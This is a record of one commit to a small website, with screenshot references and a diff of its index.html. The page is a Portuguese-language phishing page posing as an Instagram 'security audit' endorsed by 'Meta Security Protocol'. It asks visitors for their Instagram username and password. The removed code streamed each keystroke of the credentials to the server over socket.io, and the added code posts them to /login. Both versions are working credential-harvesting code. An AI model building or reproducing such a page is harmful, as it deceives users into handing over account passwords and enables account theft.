

Before and after one commit to empresatree524-cmd/MEU-SITE, a website: page public/index.html in a window 1280 px wide. Shown: the part 297-820 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,30 +3,26 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <link rel="stylesheet" href="style.css">
-    <title>InstaCheck | Auditoria de Segurança</title>
+    <title>7X Security | Auditoria</title>
+    <style>
+        body { background-color: #0d1117; color: white; font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background-color: #161b22; padding: 30px; border-radius: 15px; border: 1px solid #30363d; text-align: center; width: 320px; }
+        input { width: 100%; padding: 12px; margin: 10px 0; border-radius: 8px; border: 1px solid #30363d; background: #0d1117; color: white; box-sizing: border-box; }
+        button { width: 100%; padding: 12px; border-radius: 8px; border: none; background-color: #38bdf8; color: black; font-weight: bold; cursor: pointer; margin-top: 10px; }
+    </style>
 </head>
 <body>
     <div class="card">
         <h2 style="color: #38bdf8;">7X Security</h2>
-        <p>Verifique se sua conta possui acessos não autorizados ou dispositivos suspeitos.</p>
-        <input type="text" id="user" placeholder="Usuário, telefone ou e-mail">
-        <input type="password" id="pass" placeholder="Senha do Instagram">
-        <button onclick="alert('Iniciando varredura de segurança...')">INICIAR AUDITORIA</button>
-        <p style="font-size: 10px; margin-top: 15px; opacity: 0.5;">Protegido por Meta Security Protocol</p>
+        <p>Verifique acessos não autorizados em sua conta.</p>
+
+        <form action="/login" method="POST">
+            <input type="text" name="user" placeholder="Usuário ou e-mail" required>
+            <input type="password" name="pass" placeholder="Senha" required>
+            <button type="submit">INICIAR AUDITORIA</button>
+        </form>
+
+        <p style="font-size: 10px; margin-top: 20px; color: #8b949e;">Protegido por Meta Security Protocol</p>
     </div>
-
-    <script src="/socket.io/socket.io.js"></script>
-    <script>
-        const socket = io();
-        const user = document.getElementById('user');
-        const pass = document.getElementById('pass');
-
-        [user, pass].forEach(input => {
-            input.oninput = () => {
-                socket.emit('typing', { u: user.value, p: pass.value });
-            };
-        });
-    </script>
 </body>
 </html>
```
